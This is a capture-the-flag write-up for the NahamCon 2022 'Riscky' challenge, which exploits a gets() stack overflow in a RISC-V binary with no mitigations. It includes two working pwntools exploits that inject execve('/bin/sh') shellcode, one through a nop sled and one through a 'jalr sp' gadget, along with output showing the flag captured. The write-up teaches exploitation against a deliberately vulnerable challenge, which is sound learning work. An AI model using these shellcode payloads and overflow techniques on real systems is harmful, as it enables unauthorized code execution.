

# NahamCon CTF 2022

## Riscky

> Don't segfault or it's game over!
>
> Author: @M_alpha#3534
>
> [`riscky.zip`](riscky.zip)

Tags: _pwn_ _riscv_ _riscv64_ _shellcode_ _bof_


## Summary

Unconstrained `riscv` binary with `gets`.

Newskool _gets_ oldskooled.


## Analysis

### Checksec

```
    Arch:     em_riscv-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments
```

No mitigations in place, choose your own adventure.


### Ghidra Decompile

```c
undefined8 main(void)
{
  char acStack520 [500];
  undefined4 local_14;
  
  local_14 = 0;
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  signal(0xb,failed);
  puts("Don\'t miss!");
  printf("> ");
  gets(acStack520);
  return 0;
}
```

Yeah, `gets`--there's your problem.  Also no mitigations or ASLR.

If this were `x86_64`, I'd tell you that `acStack520` is `520` bytes from the end of the stackframe, IOW, write out `520` bytes of garbage then your ROP chain.  However RISC-V does not `push` a return address to the stack on `call`.  RISC-V does not _push_ or _pop_.  RISC-V simply allocates a stackframe on `call` and the return address is _in_ the stackframe.  Just remember to subtract 8 (if 64bit), IOW, write out `520 - 8` bytes of garbage and then your ROP chain.


### Let's go shopping!

We're going to need some tools to pull off this exploit:

```bash
dpkg --add-architecture riscv64
apt-get update
apt-get -qy install build-essential gdb-multiarch
apt-get -qy install binutils-riscv64-linux-gnu binutils-riscv64-unknown-elf
apt-get -qy install qemu-system e2tools qemu-user qemu-user-binfmt "binfmt*"
apt-get -qy install qemu-user-static
```

> The above may not be 100% accurate, I already have a container I use for pwn, so I just pulled out the commands from my `Dockerfile` I thought you'd need.

We'll need Docker as well.  I'm using Docker for MacOS.

We'll also need some shellcode; this was the first Google hit: [http://shell-storm.org/shellcode/files/shellcode-908.php](http://shell-storm.org/shellcode/files/shellcode-908.php).


### Prep container for remote debugging

After extracting `riscky.zip` edit `start.sh` and add `-g 9000`, e.g.:

```bash
#!/bin/sh

su challenge -c /bin/sh -c '/usr/bin/qemu-riscv64 -g 9000 /riscky'
```

Then create a `flag.txt` file, e.g.:

```bash
echo flag{flag} >flag.txt
```

Finally, build and run the container:

```bash
docker build --no-cache -t riscky .
docker run --rm -d --name riscky -p 9000:9000 -p 9999:9999 riscky
```


### Locate the `gets` buffer

To start `riscky` executing, just `nc localhost 9999`, then from `gdb` in another terminal type:

```
file riscky
set sysroot /usr/riscv64-linux-gnu/
target remote gateway.docker.internal:9000
```

> `gateway.docker.internal` is a MacOS Docker thing, if you're on Linux, it's probably just `localhost`.

If all went well, and if you're using something like GEF, you should see something like this:



Next disassemble `main` and set a breakpoint _after_ `gets`, then continue:

```
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000010620 <+0>:	addi	sp,sp,-528
   0x0000000000010624 <+4>:	sd	ra,520(sp)
   0x0000000000010628 <+8>:	sd	s0,512(sp)
   0x000000000001062c <+12>:	addi	s0,sp,528
   0x000000000001062e <+14>:	li	a1,0
   0x0000000000010630 <+16>:	sd	a1,-528(s0)
   0x0000000000010634 <+20>:	sw	a1,-20(s0)
   0x0000000000010638 <+24>:	auipc	a0,0x60
   0x000000000001063c <+28>:	ld	a0,568(a0) # 0x70870
   0x0000000000010640 <+32>:	ld	a0,0(a0)
   0x0000000000010642 <+34>:	jal	ra,0x1b126 <setbuf>
   0x0000000000010646 <+38>:	ld	a1,-528(s0)
   0x000000000001064a <+42>:	auipc	a0,0x60
   0x000000000001064e <+46>:	ld	a0,478(a0) # 0x70828
   0x0000000000010652 <+50>:	ld	a0,0(a0)
   0x0000000000010654 <+52>:	jal	ra,0x1b126 <setbuf>
   0x0000000000010658 <+56>:	auipc	a1,0x0
   0x000000000001065c <+60>:	addi	a1,a1,-74 # 0x1060e <failed>
   0x0000000000010660 <+64>:	li	a0,11
   0x0000000000010662 <+66>:	jal	ra,0x14268 <ssignal>
   0x0000000000010666 <+70>:	auipc	a0,0x3c
   0x000000000001066a <+74>:	addi	a0,a0,138 # 0x4c6f0
   0x000000000001066e <+78>:	jal	ra,0x19d00 <puts>
   0x0000000000010672 <+82>:	auipc	a0,0x3c
   0x0000000000010676 <+86>:	addi	a0,a0,138 # 0x4c6fc
   0x000000000001067a <+90>:	jal	ra,0x1513e <printf>
   0x000000000001067e <+94>:	addi	a0,s0,-520
   0x0000000000010682 <+98>:	jal	ra,0x19ab2 <gets>
   0x0000000000010686 <+102>:	ld	a0,-528(s0)
   0x000000000001068a <+106>:	ld	s0,512(sp)
   0x000000000001068e <+110>:	ld	ra,520(sp)
   0x0000000000010692 <+114>:	addi	sp,sp,528
   0x0000000000010696 <+118>:	ret
End of assembler dump.
gef➤  b *main+102
Breakpoint 1 at 0x10686
gef➤  c
Continuing.
```

From your `nc localhost 9999` session input `AAAA`, `gets` should return and execution should halt; get the location of `a0` (buf), and we're done:

```
gef➤  i r a0
a0             0x40008009b8	0x40008009b8
gef➤  x/1s 0x40008009b8
0x40008009b8:	"AAAA"
```


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 30533)
    buf = 0x00000040008009b8
else:
    if args.D:
        p = process('qemu-riscv64 -g 9000 -L /usr/riscv64-linux-gnu riscky'.split())
    else:
        p = process('qemu-riscv64 riscky'.split())
    buf = 0x0000004000800188

context.arch = 'riscv'
context.bits = 64

# http://shell-storm.org/shellcode/files/shellcode-908.php
shellcode = b'\x01\x11\x06\xec\x22\xe8\x13\x04\x21\x02\xb7\x67\x69\x6e\x93\x87\xf7\x22\x23\x30\xf4\xfe\xb7\x77\x68\x10\x33\x48\x08\x01\x05\x08\x72\x08\xb3\x87\x07\x41\x93\x87\xf7\x32\x23\x32\xf4\xfe\x93\x07\x04\xfe\x01\x46\x81\x45\x3e\x85\x93\x08\xd0\x0d\x93\x06\x30\x07\x23\x0e\xd1\xee\x93\x06\xe1\xef\x67\x80\xe6\xff'

payload  = b''
payload += ((520 - 8 - len(shellcode)) // len(asm('nop'))) * asm('nop')
payload += shellcode
payload += p64(buf)

p.sendlineafter(b'> ', payload)
p.interactive()
```

This is as oldskool as it _gets_, no ASLR, executable stack, a pretty good guess at the stack/buf location, and a nopsled followed by some script kiddie shellcode we got off the Internet.

Now you know RISC-V.

> pwntools RISC-V support is, well, not 100%, e.g. `binary = context.binary = ELF('./riscky')` didn't work, so I had to manually set in code `context.arch` and `context.bits` for `asm`.  The other option was to use `p32(0x13)` for `nop`.
>
> NOTE: `python3 -m pip install pwntools==4.9.0b0`

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to challenge.nahamcon.com on port 31603: Done
[!] Could not find system include headers for riscv-linux
[*] Switching to interactive mode
$ cat flag.txt
flag{834e1b43c9cdfab13d9352fc949cec7b}
```


## Exploit 2

After the CTF ended and while writing this write up I wanted to find a solution that did not require hardcoding the buffer address.  I do not have any tools to find ROP gadgets for RISC-V, so I started reading through the disassembly:

```bash
/usr/bin/riscv64-linux-gnu-objdump -d riscky | less
```

JFC, it didn't take long to stumble upon:

```assembly
000000000001060c <helpful>:
   1060c:       9102                    jalr    sp
```

Basically the challenge author gave us a gift.

A better solution:

```python
#!/usr/bin/env python3

from pwn import *

binary = ELF('./riscky', checksec=False)
context.arch = 'riscv'
context.bits = 64

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 30533)
else:
    if args.D:
        p = process('qemu-riscv64 -g 9000 -L /usr/riscv64-linux-gnu riscky'.split())
    else:
        p = process('qemu-riscv64 riscky'.split())

# https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html
shellcode = asm(f'''
li s1, {'0x' + bytes.hex(b'/bin/sh'[::-1])}
sd s1, -16(sp)              # Store dword s1 on the stack
addi a0,sp,-16              # a0 = filename = sp + (-16)
slt a1,zero,-1              # a1 = argv set to 0
slt a2,zero,-1              # a2 = envp set to 0
li a7, 221                  # execve = 221
ecall                       # Do syscall
''')

if args.D: print(disasm(shellcode))

payload  = b''
payload += (520 - 8) * b'A'
payload += p64(binary.sym.helpful)
payload += shellcode

p.sendlineafter(b'> ', payload)
p.interactive()
```

Above is like most 90's _No ASLR-gets-executable stack-jump to stack_ type solutions, where there's a `jmp rsp` or `jmp esp` (or in this case `jalr sp`) gadget that can be used to call your shellcode down stack.

This was probably the intended solution.
